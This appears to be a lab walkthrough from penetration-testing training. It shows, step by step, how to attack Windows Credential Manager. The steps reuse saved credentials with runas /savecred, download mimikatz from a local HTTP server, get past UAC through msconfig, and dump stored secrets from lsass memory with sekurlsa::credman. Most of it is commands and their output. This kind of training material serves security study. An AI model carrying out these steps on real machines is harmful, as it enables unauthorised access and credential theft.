





## Attacking Windows Credential Manager

1. connect to the target with rdp.

```
xfreerdp /v:$target_ip /u:sadams /p:totally2brow2harmon@
```

output:
<p align="center">
  
</p>

2. enumerate stored credentials.

```
PS C:\Users\sadams> cmdkey /list
```

output:
```
Currently stored credentials:

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

3. use runas to impersonate the stored user `SRV01\mcharles`.

```
PS C:\Users\sadams> runas /savecred /user:SRV01\mcharles powershell
```

output:
<p align="center">
  
</p>

4. enumerate stored credentials.

```
PS C:\Windows\system32> cmdkey /list
```

output:
```
Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02jejfxhvabjneqt
    Local machine persistence

    Target: LegacyGeneric:target=onedrive.live.com
    Type: Generic
    User: mcharles@inlanefreight.local
```

5. open windows stored user names and passwords dialog.

```
PS C:\Windows\system32> rundll32 keymgr.dll,KRShowKeyMgr
```

output:
<p align="center">
  
</p>

nothing to do here...

6. open a second terminal and kali and see if mimikat.exe exists.

```
ls /usr/share/windows-resources/mimikatz
```

7. start an http server.

```
python3 -m http.server 9000 --bind 0.0.0.0
```

8. on windows, go to google chrome and download `mimikatz.exe`.

<p align="center">
  
</p>

9. run mimikatz on the impersonated `SRV01\mcharles`.

```
PS C:\Windows\system32> C:\Users\sadams\Downloads\mimikatz.exe
```

output:
```
mimikatz #
```

10. enable debug privilege.

```
mimikatz # privilege::debug
```

output:
```
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

need to deal with uac.

11. run msconfig.

```
PS C:\Windows\system32> msconfig
```

12. launch cmd through msconfig.

output:
<p align="center">
  
</p>

13. check for `SeDebugPrivilege`.

```
C:\Windows\system32>whoami /priv
```

14. run mimikatz again.

```
PS C:\Windows\system32> C:\Users\sadams\Downloads\mimikatz.exe
```

15. enable debug privilege.

```
mimikatz # privilege::debug
```

output:
```
Privilege '20' OK
```

16. extract credentials stored in credential manager from lsass memory using sekurlsa.

```
mimikatz # sekurlsa::credman
```